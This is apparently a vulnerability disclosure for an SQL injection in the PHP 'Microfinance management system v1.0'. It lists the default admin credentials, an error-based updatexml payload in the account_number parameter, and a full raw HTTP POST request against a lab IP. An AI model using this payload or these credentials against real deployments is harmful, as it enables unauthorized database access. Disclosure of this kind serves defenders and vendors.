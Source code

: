 # Microfinance management system v1.0 - SQL injection

### username:admin password:123456 ----> {ip}/login.php

Supplier:https://www.sourcecodester.com/php/14822/microfinance-management-system.html

/updateaccount.php has SQL injection

Payload:account_number=' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+

SQL injection because 'account_ number' parameter can be controlled

```
POST /cms001/app/openaccountHandler.php HTTP/1.1
Host: 192.168.0.196
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4476.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 163
Origin: http://192.168.0.196
Connection: close
Referer: http://192.168.0.196/cms001/updateaccount.php
Cookie: PHPSESSID=jl7s46ab2lmjcsjbb8ihlu3kq2
Upgrade-Insecure-Requests: 1

account_number=' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+=&customer=Select+one&account_type=Select+one&account_status=Select+one&update_account=
```

![image-20220325103340136](/Users/sqlmap/Library/Application Support/typora-user-images/image-20220325103340136.png)

![image-20220325103257871](/Users/sqlmap/Library/Application Support/typora-user-images/image-20220325103257871.png)

